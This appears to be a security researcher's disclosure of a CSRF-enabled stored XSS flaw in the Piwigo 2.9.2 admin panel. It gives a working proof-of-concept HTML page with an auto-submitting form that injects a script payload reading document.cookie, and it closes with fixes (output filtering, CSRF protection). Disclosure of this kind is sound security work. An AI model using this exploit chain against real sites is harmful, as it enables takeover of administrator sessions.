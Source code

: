 ### piwigo - XSS/CSRF vulnerability

Well,  when I pentest the latest version piwigo 2.9.2, I found some vulnerabilities here.

```
http://demo.com/piwigo/admin.php?page=album-3-properties
```

#### CSRF:

For example, the admin panel has no csrf protection here , we can do something evilly to the admin user.


##### XSS[stored xss]:

With the csrf , we can cheat the admin user to visit the evil webpage on the evil site:

```
http://evil.com/evil.htm
```

The xss poc content in the evil.htm:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://demo.com/piwigo/admin.php?page=album-3-properties" method="POST">
      <input type="hidden" name="name" value="test&apos;&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;document&#46;cookie&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="comment" value="test" />
      <input type="hidden" name="parent" value="0" />
      <input type="hidden" name="visible" value="true" />
      <input type="hidden" name="commentable" value="true" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

At last, the admin user write evil stored-xss content to the admin panel by himself, and the evil attacker don't need to login into admin panel personally.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss1.png)

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/piwigo/xss2.png)

We should add some sec-character-filter to the output of the site , even in the admin panel.
On the other hand, adding csrf protection to the important operation in the admin panel,is also needed to be considered.




